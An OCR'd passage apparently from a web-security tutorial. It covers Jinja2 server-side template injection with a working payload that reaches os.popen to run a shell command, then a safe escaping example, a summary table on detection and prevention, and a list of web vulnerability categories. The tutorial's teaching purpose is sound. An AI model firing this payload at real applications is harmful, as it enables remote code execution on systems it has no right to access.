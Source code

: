 Hello 49
Now escalate:

python
Copy
Edit
{{config.__class__.__init__.__globals__['os'].popen('id').read()}}
➡️ Returns output of id command → Remote Code Execution

✅ Safe Version
python
Copy
Edit
@app.route('/greet')
def greet():
    name = request.args.get("name")
    return render_template("greet.html", name=escape(name))
Uses predefined templates + HTML escaping.

✅ Summary Table
🔍 Field	💡 Details
Impact	RCE, data leak, file read/write
Detection	Test math or logic payloads like {{7*7}}
Bypasses	Encoding, polyglots, object access
Prevention	Escaping, sandboxing, avoid render_template_string()
Example	Exploiting Jinja2 with __class__.__mro__ chain



⚡️ Broken Authentication and Session Management:
14. Session Fixation
15. Brute Force Attack
16. Session Hijacking
17. Password Cracking
18. Weak Password Storage
19. Insecure Authentication
20. Cookie Theft
21. Credential Reuse

⚡️ Sensitive Data Exposure:
22. Inadequate Encryption
23. Insecure Direct Object References (IDOR)
24. Data Leakage
25. Unencrypted Data Storage
26. Missing Security Headers
27. Insecure File Handling

⚡️ Security Misconfiguration:
28. Default Passwords
29. Directory Listing
30. Unprotected API Endpoints
31. Open Ports and Services
32. Improper Access Controls
33. Information Disclosure
34. Unpatched Software
35. Misconfigured CORS
36. HTTP Security Headers Misconfiguration

